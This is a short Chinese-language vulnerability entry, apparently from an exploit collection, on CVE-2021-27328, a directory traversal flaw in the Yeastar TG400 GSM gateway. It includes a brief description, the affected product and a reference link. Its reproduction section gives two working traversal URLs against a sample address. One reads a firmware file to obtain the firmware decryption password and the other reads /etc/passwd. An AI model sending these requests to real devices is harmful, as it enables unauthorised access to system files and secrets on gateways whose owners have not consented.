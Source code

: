 # 朗视-TG400-GSM-网关目录遍历--CVE-2021-27328

## 漏洞描述

朗视 TG400 GSM 网关存在目录遍历 ，攻击者可以通过漏洞获取敏感信息



## 漏洞影响

> [!NOTE]
>
> 朗视 TG400 GSM 网关



## 漏洞复现

暂无FOFA语句及固件设备复现



```
获取固件解密密码
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
/etc/passwd：
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```

## 参考文章

https://github.com/SQSamir/CVE-2021-27328
